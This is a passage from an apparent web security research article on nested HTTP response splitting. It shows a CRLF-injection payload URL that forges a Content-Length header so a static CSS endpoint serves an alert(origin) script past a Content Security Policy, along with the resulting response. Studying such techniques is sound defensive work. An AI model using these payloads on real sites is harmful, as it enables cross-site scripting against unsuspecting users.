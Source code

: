 Fortunately, we can truncate the invalid syntax with different tricks!

## Missing Content-Length Response Header

If, for some reason, the response header doesn't have `Content-Length` header, we can simply inject it into the response:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css?type=text/javascript%250d%250aContent-Length:%252013%250d%250a%250d%250aalert(origin)%22%3E%3C/script%3E
```

Nested response splitting's response:

```http
HTTP/1.0 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Type: text/javascript
Content-Length: 13

alert(origin)
```

![](/research/articles/ArticleNo5/image7.png)

![](/research/articles/ArticleNo5/image8.png)

## Able to Control Content-Length Response Header (Very Rare)
